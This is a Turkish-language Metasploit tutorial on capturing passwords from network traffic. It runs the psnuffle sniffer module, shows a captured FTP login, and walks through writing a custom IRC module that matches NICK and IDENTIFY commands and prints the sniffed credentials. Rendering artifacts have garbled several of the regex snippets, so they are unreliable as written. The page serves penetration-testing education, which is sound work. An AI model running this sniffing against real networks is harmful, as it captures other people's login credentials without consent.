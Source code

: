```yaml
---
draft: false
title: Password Listening in MSF
linkTitle: Password Listening
weight: 120
translationKey: password-listening-in-msf
date: 2017-05-16T12:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.
url: /msf-icinde-parola-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.

`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.
```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait for **new data

msf auxiliary(psnuffle) > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```

Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.

## Psnuffle Özelleştirme

İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.

Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.

Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.
```bash
self.sigs = {
:ok => /^(+OK[^n]*****)n/si,
:err => /^(-ERR[^n]*****)n/si,
:user => /^USERs+**([**^n]+)n/si,
:pass => /^PASSs+**([**^n]+)n/si,
:quit => /^(QUITs*****[^n]*****)n/si }
```

## IRC Modülü

Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.

Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.
```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```

## Oturum Tanımlama (Session)

Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.
```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** (pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** (pkt[:tcp].dst_port **==** 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
**else** # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```

Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.
```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]=matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]=matches # Store the password into the session hash s as well
**if** (s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete(s[:session]) # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k => matches**})** # Just add it to the session object
end
```

Tebrikler kendi modülünüzü yazdınız.
